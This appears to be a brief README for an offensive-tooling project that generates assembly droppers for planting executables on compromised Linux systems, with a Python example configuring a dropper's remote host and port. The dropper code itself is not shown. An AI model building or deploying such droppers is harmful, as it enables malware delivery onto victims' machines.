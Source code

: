 # Droppers

Droppers written in assembly to drop executables on the compromised computer system.

```python3
from linux_x64_dropper import Dropper

dropper = Dropper()
code = dropper.generate(assemble=False, options={'RHOST': '127.0.0.1', 'RPORT': 8888})

print(code)
```
